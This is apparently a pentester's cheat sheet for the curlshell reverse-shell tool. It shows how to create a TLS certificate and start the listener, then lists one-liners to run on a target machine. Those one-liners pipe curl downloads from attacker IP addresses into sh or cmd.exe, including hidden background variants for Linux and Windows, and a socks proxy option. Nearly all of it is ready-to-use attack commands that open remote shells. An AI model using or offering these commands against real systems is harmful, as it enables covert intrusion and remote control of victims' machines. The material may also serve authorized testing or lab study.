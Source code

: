 # curlshell

* https://github.com/SkyperTHC/curlshell
* https://raw.githubusercontent.com/SkyperTHC/curlshell/main/curlshell.py
* Generate SSL Certificate

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

### Start Listener

```
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```

### Send callback

```
curl -skfL https://10.10.14.49:80 | sh 
curl -skfL https://192.168.50.170 | sh 
curl -skfL https://172.16.106.140 | cmd.exe
```

### &#x20;Send callback in the background

* On the target:

```
(curl -sfL http://10.10.14.37 | sh &>/dev/null &) 
(curl -skfL https://10.10.14.49:80 | sh &>/dev/null &)
start "" /B cmd /C "curl -skfL https://172.16.106.140:8443 | cmd.exe"
 Start-Process -NoNewWindow -FilePath "cmd.exe" -ArgumentList "/c curl -sfkl https://172.16.106.140:8443 | cmd.exe"
```

* with a socks proxy

```
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080
```

